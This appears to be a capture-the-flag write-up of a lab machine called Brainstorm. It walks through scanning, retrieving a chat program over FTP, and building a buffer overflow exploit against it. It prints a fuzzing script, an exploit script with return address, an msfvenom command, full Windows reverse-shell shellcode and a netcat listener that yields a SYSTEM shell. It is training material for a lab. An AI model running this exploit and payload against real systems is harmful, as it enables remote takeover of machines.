# Brainstorm

## Description

Reverse engineer a chat program and write a script to exploit a Windows machine.
* Difficulty: *Medium*
* Category: Buffer Overflow

## Scan Network

We are given the IP address of the target machine. Let's start by scanning the machine with Nmap.



The host is not responding. Maybe it is blocking the ping probes. Let's try to scan the machine without the ping scan.



We found 3 open ports: 21, 3389, and 9999. Let's now scan the services running on these ports.



The FTP service is running on port 21, the RDP service is running on port 3389, and there is a beta version chat service running on port 9999. Let's start by checking the FTP service.

## Accessing Files



We kept trying to connect to the FTP service from our own Kali machine, but it was not working. We need to switch to the AttackBox to connect to the FTP service.



We successfully connected to the FTP service and downloaded the files with the AttackBox. Now we transfer the files to our Kali machine.



We have the files on our Kali machine. Let's check the files.

## Access

Seems like we have a chat program. There is port 9999 that we have not checked yet. Let's try to connect to it to see if there is anything related.



Sounds like the service running on port 9999 is the chat program we found. It seems to be badly written. From what we tested, it is worth checking for buffer overflow vulnerabilities. Therefore, we will be testing on local with the chat program we retrieved before exploiting on the target machine.

Since the chat program is a Windows executable, we will be using Immunity Debugger to analyze the program.



From the previous testing, we know that there is 2 input fields: username and message. We need to try and crash the program to see which input field is vulnerable.



As we can see, when we connect a send a long string to the username field, the program seems to not be affected. Let's try the message field.



When we send a long string to the message field, the program crashes. This means that the message field is vulnerable to buffer overflow. Let's fuzz the message field to find the approximate buffer size. The fuzzing script is as follows:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "172.16.159.133"
port = 9999
timeout = 5

username = "DrunkenHacker\r\n"
message = "A" * 100

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
s.send(bytes(username, "latin-1"))
s.recv(1024)

while True:
    try:
        print("Sending {} bytes...".format(len(message)))
        s.send(bytes(message, "latin-1"))
        s.recv(1024)
        message += "A" * 100
        time.sleep(5)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(message)))
        sys.exit(0)
```



The program crashes at 2800 bytes. We will now try to control the EIP register. We will create a pattern with 2800 bytes and find the offset.



Our script to find the offset should look like this:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "172.16.159.133"
port = 9999
timeout = 5

username = "DrunkenHacker\r\n"

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "[REDACTED]"
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))
s.recv(1024)
s.send(bytes(username, "latin-1"))
s.recv(1024)

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```



The pattern was sent successfully. Now we will find the offset in Immunity Debugger.



The offset is 2012 bytes. We will now try to control the EIP register. We will create a script to send a buffer with 2012 bytes of `A` and 4 bytes of `B`. We need to modify the script a bit:

```python
[...]
offset = 2012
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""
[...]
```



The EIP register is successfully overwritten with `42424242`. We will now find bad characters. We will create a bytearray and send it to the program. We will then compare the bytearray with the ESP register to find the bad characters.



How lucky! We found no bad characters except for `00`. We now need to find a jump point to redirect the program execution.



We found some jump points. We will use the first one from the image above. We will set the `retn` parameter of our script to the address of the jump point in little endian format.

```python
[...]
offset = 2012
overflow = "A" * offset
retn = "\xdf\x14\x50\x62"
[...]
```

Now we need to generate a shellcode to execute a reverse shell. We will use msfvenom to generate the shellcode.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/brainstorm]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=172.16.159.1 LPORT=6666 EXITFUNC=thread -b "\x00" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1745 bytes
buf =  b""
buf += b"\xda\xc0\xb8\xda\x9b\x3d\xa1\xd9\x74\x24\xf4\x5a"
buf += b"\x31\xc9\xb1\x52\x31\x42\x17\x83\xea\xfc\x03\x98"
buf += b"\x88\xdf\x54\xe0\x47\x9d\x97\x18\x98\xc2\x1e\xfd"
buf += b"\xa9\xc2\x45\x76\x99\xf2\x0e\xda\x16\x78\x42\xce"
buf += b"\xad\x0c\x4b\xe1\x06\xba\xad\xcc\x97\x97\x8e\x4f"
buf += b"\x14\xea\xc2\xaf\x25\x25\x17\xae\x62\x58\xda\xe2"
buf += b"\x3b\x16\x49\x12\x4f\x62\x52\x99\x03\x62\xd2\x7e"
buf += b"\xd3\x85\xf3\xd1\x6f\xdc\xd3\xd0\xbc\x54\x5a\xca"
buf += b"\xa1\x51\x14\x61\x11\x2d\xa7\xa3\x6b\xce\x04\x8a"
buf += b"\x43\x3d\x54\xcb\x64\xde\x23\x25\x97\x63\x34\xf2"
buf += b"\xe5\xbf\xb1\xe0\x4e\x4b\x61\xcc\x6f\x98\xf4\x87"
buf += b"\x7c\x55\x72\xcf\x60\x68\x57\x64\x9c\xe1\x56\xaa"
buf += b"\x14\xb1\x7c\x6e\x7c\x61\x1c\x37\xd8\xc4\x21\x27"
buf += b"\x83\xb9\x87\x2c\x2e\xad\xb5\x6f\x27\x02\xf4\x8f"
buf += b"\xb7\x0c\x8f\xfc\x85\x93\x3b\x6a\xa6\x5c\xe2\x6d"
buf += b"\xc9\x76\x52\xe1\x34\x79\xa3\x28\xf3\x2d\xf3\x42"
buf += b"\xd2\x4d\x98\x92\xdb\x9b\x0f\xc2\x73\x74\xf0\xb2"
buf += b"\x33\x24\x98\xd8\xbb\x1b\xb8\xe3\x11\x34\x53\x1e"
buf += b"\xf2\x97\xb4\xbf\x03\x80\xb6\xbf\x19\x5a\x3e\x59"
buf += b"\x77\x4a\x16\xf2\xe0\xf3\x33\x88\x91\xfc\xe9\xf5"
buf += b"\x92\x77\x1e\x0a\x5c\x70\x6b\x18\x09\x70\x26\x42"
buf += b"\x9c\x8f\x9c\xea\x42\x1d\x7b\xea\x0d\x3e\xd4\xbd"
buf += b"\x5a\xf0\x2d\x2b\x77\xab\x87\x49\x8a\x2d\xef\xc9"
buf += b"\x51\x8e\xee\xd0\x14\xaa\xd4\xc2\xe0\x33\x51\xb6"
buf += b"\xbc\x65\x0f\x60\x7b\xdc\xe1\xda\xd5\xb3\xab\x8a"
buf += b"\xa0\xff\x6b\xcc\xac\xd5\x1d\x30\x1c\x80\x5b\x4f"
buf += b"\x91\x44\x6c\x28\xcf\xf4\x93\xe3\x4b\x14\x76\x21"
buf += b"\xa6\xbd\x2f\xa0\x0b\xa0\xcf\x1f\x4f\xdd\x53\x95"
buf += b"\x30\x1a\x4b\xdc\x35\x66\xcb\x0d\x44\xf7\xbe\x31"
buf += b"\xfb\xf8\xea"
```

We copy the shellcode into the `payload` parameter of our script. We also need to prepend some NOPs to the shellcode to give it some space to unpack itself.

```python
[...]
padding = "\x90" * 20
payload = ([REDACTED])
[...]
```

All need to do now is run a listener and run the script.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/brainstorm]
└─$ nc -lvnp 6666       
listening on [any] 6666 ...
connect to [172.16.159.1] from (UNKNOWN) [172.16.159.133] 49197
Microsoft Windows [version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Tous droits réservés.

C:\Users\toto\Desktop\Brainstorm>
```

We successfully got a reverse shell. We can now try to exploit the target machine. All we need to do is change the IP address and the payload in our script to the target machine's IP address and run the script.



We sussessfully got a reverse shell as `NT AUTHORITY\SYSTEM`. Time to find the flag.

```cmd
C:\Users\drake\Desktop>dir

 Volume in drive C has no label.
 Volume Serial Number is C87F-5040

 Directory of C:\Users\drake\Desktop

08/29/2019  09:55 PM    <DIR>          .
08/29/2019  09:55 PM    <DIR>          ..
08/29/2019  09:55 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  19,703,148,544 bytes free

C:\Users\drake\Desktop>type root.txt
[REDACTED]
```

And we found the flag!